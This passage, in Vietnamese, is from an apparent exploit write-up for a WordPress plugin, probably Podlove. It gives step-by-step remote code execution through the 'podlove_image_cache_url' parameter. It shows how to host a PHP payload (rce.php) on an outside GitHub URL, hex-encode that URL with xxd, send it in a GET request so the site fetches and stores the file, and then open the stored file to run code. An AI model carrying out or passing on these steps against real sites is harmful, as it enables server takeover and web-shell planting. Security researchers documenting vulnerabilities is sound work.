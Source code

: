 2. Lưu file ở đâu đó trên internet, domain không trùng với wordpress domain website,
ví dụ:

```
https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

3. Mã hóa hex(https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php)

```bash
❯ echo -n "https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php" | xxd -p
68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870
```

3. Gửi GET request với param `podlove_image_cache_url=68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870`

![File Uploaded](file_uploaded.png "Upload file thành công")

4. Truy cập file vừa tạo và RCE

![Result](result.png "RCE với file upload")
